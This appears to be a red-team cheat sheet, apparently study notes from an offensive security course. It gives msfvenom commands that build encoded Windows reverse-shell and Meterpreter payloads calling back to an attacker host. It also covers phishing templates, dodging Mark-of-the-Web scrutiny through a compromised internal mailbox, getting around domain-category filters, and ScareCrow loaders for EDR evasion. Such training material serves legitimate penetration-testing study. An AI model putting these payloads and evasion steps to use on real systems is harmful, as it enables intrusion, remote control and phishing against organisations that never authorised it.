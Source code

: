 #### Generate Messagebox payload
```
msfvenom -p windows/x64/messagebox TEXT="0xjs" -o msgbox64.bin
```

#### Generate Stageless Reverse Shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 11 -o shell.bin

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -o meter_rev.bin
```

## Phishing
- https://github.com/ZeroPointSecurity/PhishingTemplates
- Any file downloaded via a browser (outside of a trusted zone) will be tainted with the "Mark of the Web" (MOTW).
- Files with MOTW are handled with additional security scrutiny - you may be familiar with both Windows SmartScreen and Office Protected View.
- If MS Office "block macros downloaded from the Internet" is enabled, a user cannot run a macro-enabled document even if they wanted to.
- Files that are emailed "internally" via a compromised Exchange mailbox are not tagged with a Zone Identifier.

#### Check MOTW data stream
- The possible zones are:
  - 0 Local computer
  - 1 Local intranet
  - 2 Trusted sites
  - 3 Internet
  - 4 Restricted sites
```
gc <FILE> -Stream Zone.Identifier
```

#### Web categorisation
- Domain names are categorised by vendors so that they be used for filtering purposes with for example web proxy's or firewalls.
- Two strategies for tackling this issue include:
  - Obtaining a domain that is already in a desirable category.
  - Requesting a change of category for a domain.
- Tools that may help:
  - https://sitereview.bluecoat.com/#/ 
  - https://github.com/mdsecactivebreach/Chameleon

## Scarecrow dll
- https://github.com/optiv/ScareCrow

#### Generate shellcode
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -i 11 -f raw -o shellcode.bin
```
